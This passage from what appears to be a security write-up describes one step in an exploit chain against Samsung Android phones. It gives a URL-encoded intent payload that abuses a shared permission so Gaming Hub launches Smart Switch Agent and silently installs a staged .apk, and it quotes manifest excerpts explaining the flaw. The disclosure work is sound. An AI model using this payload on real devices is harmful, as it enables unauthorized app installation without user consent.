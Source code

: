 
For our exploit chain, when the attacker phone generates a QR code, the random code at the end of the URL should be used in bug 4. This will force the target phone to download the .apk file automatically without user confirmation.

### Bug 5 – Silently install `.apk` file located on disk

#### Exploit Code

The following payload is sent from <attackerServer> to force Gaming Hub to launch Smart Switch Agent:

```
intent://#Intent;component=com.sec.android.easyMover.Agent/.ui.SsmUpdateCheckActivity;action=com.sec.android.easyMover.Agent.WATCH_INSTALL_SMART_SWITCH;S.MODE=DIALOG;S.ssm_action=yayactionyay;S.ssm_uri=%63%6f%6e%74%65%6e%74%3a%2f%2f%63%6f%6d%2e%73%61%6d%73%75%6e%67%2e%67%70%75%77%61%74%63%68%61%70%70%2e%48%74%6d%6c%44%75%6d%70%50%72%6f%76%69%64%65%72%2f%79%61%79%2e%61%70%6b;end;
```

NOTE: the `ssm_uri` value is set to a custom value that is specific to this exploit chain.

#### Exploit Details

The application "Smart Switch Agent" (`com.sec.android.easyMover.Agent` version 2.0.02.24) is a background application that runs alongside the Smart Switch application. When transferring data between an old phone and a new Samsung phone, the Smart Switch Agent helps facilitate the installation of applications on the new phone.

One of the exported Activities, `com.sec.android.easyMover.Agent.ui.SsmUpdateCheckActivity`, is protected by a custom permission, com.wssnps.permission.COM_WSSNPS. However, Gaming Hub also uses this permission, making it possible for Gaming Hub to launch the `SsmUpdateCheckActivity` Activity.

```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="710107000"
    android:versionName="7.1.01.7"
    ...
    package="com.samsung.android.game.gamehome"
    ...
    <uses-permission android:name="com.wssnps.permission.COM_WSSNPS"/>
```
```
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    android:versionCode="200200024"
    android:versionName="2.0.02.24"
    ...
    package="com.sec.android.easyMover.Agent"
    ...
    <activity android:name="com.sec.android.easyMover.Agent.ui.SsmUpdateCheckActivity"
            android:permission="com.wssnps.permission.COM_WSSNPS"
            android:exported="true"
            android:excludeFromRecents="true"
            android:screenOrientation="portrait"
            android:configChanges="smallestScreenSize|screenSize|screenLayout|orientation">
            <intent-filter>
                <action android:name="com.sec.android.easyMover.Agent.WATCH_INSTALL_SMART_SWITCH"/>
                <category android:name="android.intent.category.DEFAULT"/>
            </intent-filter>
        </activity>
```
